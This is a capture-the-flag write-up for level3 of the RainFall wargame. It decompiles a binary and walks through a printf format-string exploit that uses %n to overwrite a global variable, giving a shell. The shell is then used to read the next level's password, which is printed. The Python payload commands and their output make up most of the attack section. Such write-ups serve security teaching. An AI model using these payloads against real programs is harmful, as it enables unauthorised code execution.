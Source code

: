 get the binary on host
* `scp -P 4242 level3@192.168.56.107:./level2 ./binary/level3`

decompile using ghidra

When we disasemble the main function, we can see the main call a v() function 

 0x08048520 <+6>:     call   0x80484a4 <v>

 in c does this:

```c
unsigned int m;

void v(void)
{
  char buffer[520];
  
  fgets(buffer,520,stdin);
  printf("%s", buffer);
  if (m == 0x40)    --> 64 in decimal
  {
    fwrite("Wait what?!\n",1,stdout);
    system("/bin/sh");
  }
  return;
}

 void main(void)
{
  v();
  return;
}

```
The program is simple, it's calling function v() wich check if the value of m, a global unitialize variable, is equal to 64.
If it is, then it launch a shell so we can get our .pass.

fgets is protected against buffer overflow, but there is an exploit called string attack we can use on printf.
It uses the %n modifier wich writes the number of bytes into a pointer.
The goal is to use the modifier '%n' to change the m value at the right place on the stack.

first we need to get the address of m, quick look on ghidra, it is: 0804988c

Now we have to display the memory address in the stack until we reach that address:

level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08 %x %x %x %x %x'" > /tmp/file

level3@RainFall:~$ cat /tmp/file | ./level3
� 200 b7fd1ac0 b7ff37d0 804988c 20782520

So we can count 3 addresses before m, and 4 including it. Now we can build our exploit:

python -c "print '\x8c\x98\x04\x08' + 'z'* 60 + '%4\$n'" > /tmp/file

we write 60 bytes, the '4\$' inf the '%n' modifier is here to tell the fonction to skip the 3 addresses so we are a the good position in the stack.\
60 bytes + \x8c\x98\x04\x08 wich is 4 bytes makes 64 written to the m variable address (\x8c\x98\x04\x08)
```
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08' + '\x90' * 60 + '%4\$n'" > /tmp/exploit_3 ; cat /tmp/exploit_3 - | ./level3`
�������������������������������������������������������������
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
